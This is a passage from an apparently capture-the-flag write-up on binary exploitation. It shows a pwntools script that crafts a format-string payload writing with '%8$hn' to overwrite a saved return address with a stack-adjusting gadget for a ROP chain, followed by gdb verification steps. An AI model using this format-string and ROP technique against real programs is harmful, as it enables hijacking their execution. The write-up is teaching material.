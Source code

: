 Yah and we get this gadget at `0x00000000000012da`. If check with our payload, we know that after this gadget is executed, we still have 3 more addresses to do a simple ROP. Anyway, just overwrite saved rip first with this script:

```python
add_rsp_x38 = exe.address + 0x00000000000012da

payload = f'%{add_rsp_x38 & 0xffff}c%8$hn'.encode()
payload = payload.ljust(0x10, b'B')
payload += p64(stack_leak - 0x23)
if CheckWhiteList(payload)==-1:
   log.critical("In blacklist!")
   p.close()
   continue
p.sendline(payload)
```

Let's attach with gdb and stop at `printf()`, then `si` to get the saved rip:

![check-stack-saved-rip.png](images/check-stack-saved-rip.png)

Run until we jump to this gadget and run until `ret` of that gadget to check the registers :

![check-register.png](images/check-register.png)
